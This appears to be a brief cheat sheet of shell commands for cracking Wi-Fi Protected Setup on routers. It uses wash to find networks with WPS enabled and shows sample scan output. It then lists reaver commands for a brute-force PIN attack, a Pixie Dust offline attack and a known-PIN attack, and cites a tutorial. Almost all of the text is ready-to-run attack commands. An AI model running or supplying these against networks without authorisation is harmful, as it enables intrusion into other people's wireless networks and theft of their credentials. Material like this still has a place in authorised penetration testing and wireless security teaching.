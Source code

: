 
#check for networks with wps available
wash -i wlan0mon

#OUTPUT

BSSID               Ch  dBm  WPS  Lck  Vendor    ESSID
--------------------------------------------------------------------------------
AA:BB:CC:XX:YY:ZZ    1  -88  2.0  No   Broadcom  linksys

#ATTACKS TO RETRIEVE THE PIN

#standard attack
sudo reaver  -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -v

#pixie dust offline attack - (-K 1)
sudo reaver -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -vvv -K 1

#pin grabbed from the back of the router
sudo reaver -b AA:BB:CC:XX:YY:ZZ -i wlan0 -vv -p 12345678




















https://axcheron.github.io/hacking-wps-using-reaver-and-pixie-dust-attack/
